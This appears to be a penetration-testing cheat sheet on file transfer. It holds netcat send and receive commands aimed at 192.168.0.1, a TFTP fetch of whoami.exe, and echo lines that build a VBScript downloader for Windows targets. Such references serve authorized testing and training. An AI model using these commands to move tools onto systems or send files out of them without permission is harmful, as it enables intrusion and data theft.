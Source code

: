## Receiving Shell
```bash
nc -l -p 1234 > out.file
```

## Sending Shell
```bash
nc -w 3 192.168.0.1 1234 < out.file
```

***

## TFTP

### Start TFTP Daemon (Folder /var/tftp)

```bash
atftpd --daemon --port 69 /var/tftp
```

### Transfer Files

```bash
tftp -i 192.168.0.1 GET whoami.exe
```

***

## VBScript 

### Create wget.vbs File 
```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
